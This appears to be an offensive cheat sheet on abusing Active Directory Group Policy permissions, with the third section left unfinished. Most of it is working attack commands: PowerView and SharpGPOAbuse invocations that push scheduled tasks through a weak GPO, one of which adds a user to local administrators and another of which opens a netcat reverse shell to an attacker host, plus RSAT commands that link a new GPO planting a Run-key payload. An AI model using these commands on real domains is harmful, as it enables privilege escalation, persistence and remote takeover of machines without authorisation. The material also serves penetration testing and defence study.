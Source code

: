 # DACL Attacks on a Group Policy Object (GPO)

## 1) WriteProperty on a GPO

We can create an "evil" GPO with a scheduled task for example

##### With PowerView

    New-GPOImmediateTask -Verbose -Force -TaskName 'Update' -GPODisplayName 'weakGPO' -Command cmd -CommandArguments "/c net localgroup administrators user1 /add"

##### With SharpGPOAbuse

    ./SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author Administrator --Command "cmd.exe" --Arguments "/c /tmp/nc.exe attacker_ip 4545 -e powershell" --GPOName "weakGPO"

## 2) CreateChild on Policies Cn + WriteProperty on an OU

It is possible to create a fully new GPO and link it to an existing OU

##### With RSAT module

    New-GPO -Name "New GPO" | New-GPLink -Target "OU=Workstation,DC=domain,DC=local"
    Set-GPPrefRegistryValue -Name "New GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /C \\path\to\payload" -Type ExpandString

After GPO refresh on the OU's machines, when the machines will restart the payload will be executed

## 3) Manage Group Policy Links

CHECK_LATER
